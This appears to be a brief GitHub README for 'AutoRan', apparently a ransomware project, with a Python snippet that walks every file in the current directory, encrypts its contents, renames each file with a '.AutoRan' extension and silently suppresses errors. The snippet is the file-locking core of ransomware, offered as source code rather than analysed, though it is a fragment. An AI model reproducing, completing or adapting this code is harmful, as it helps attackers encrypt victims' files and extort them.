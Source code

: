# AutoRan
### AutoRan history 1.0
 - Encrypt

##### Use cryptography modul
##### Encrypt Source Code

'''Files = glob.glob("*.*")

def Encry():
  try:
    for File in Files:
      with open(File, "r") as fp:
        Data = fp.read()
        Locked = F.encrypt(Data)
        Encrypt[File] = Locked
        os.rename(File, f"{File}.AutoRan")
        FL.insert(END, f"{File} -> {File}.AutoRan")
        fp.close()
  except:
    pass'''
